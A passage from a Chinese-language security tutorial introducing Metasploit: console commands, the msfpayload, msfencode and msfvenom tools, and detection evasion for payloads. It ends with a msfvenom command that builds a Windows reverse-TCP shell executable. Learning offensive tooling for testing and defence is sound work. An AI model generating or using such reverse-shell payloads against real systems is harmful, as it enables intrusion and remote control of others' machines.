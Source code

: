 # 启动 Metasploit

要启动 Metasploit，您需要打开 shell 并输入`msfconsole`。以下截图代表 Metasploit 的控制台模式（`msfconsole`）。正如讨论的那样，Metasploit 还有其他接口，如`msfcli`（类似于`msfconsole`，但不是交互式的），`msfgui`（图形版本）和`armitage`（强大的 GUI 界面）。

以下截图是`msfcli`的：

![](img/00209.jpeg)

Metasploit 命令包括：

+   `help`：提供有关如何使用功能的信息

+   `show payloads`：列出可用的有效载荷

+   `show exploits`：列出可用的利用

+   `show options`：列出所需的选项

+   `msfupdate`：更新 Metasploit

+   `use`：使用模块

+   `search`：搜索功能

+   `exploit`：启动利用

![](img/00210.jpeg)

在深入了解 Metasploit 强大的命令之前，让我们先检查 Metasploit 框架的组件：

+   `msfpayload`：在利用后要在目标机器上运行的脚本。

+   `msfencode`：用于避免检测有效载荷的神奇实用程序。

+   `msfvenom`：这类似于前两个实用程序的组合。这是 Metasploit 中的一个新功能：

![](img/00211.jpeg)

您可以通过输入以下内容来检查可用的有效载荷格式：

```
# msfvenom --help-formats
```

![](img/00212.jpeg)

例如，如果要生成 Windows 有效载荷，请输入以下内容：

```
# msfvenom -p windows/shell/reverse_tcp LHOST=[YourIPaddress]
```

```
LPORT=8080  - f exe > [A_Specific_PATH]/  payload.exe
```

![](img/00213.jpeg)
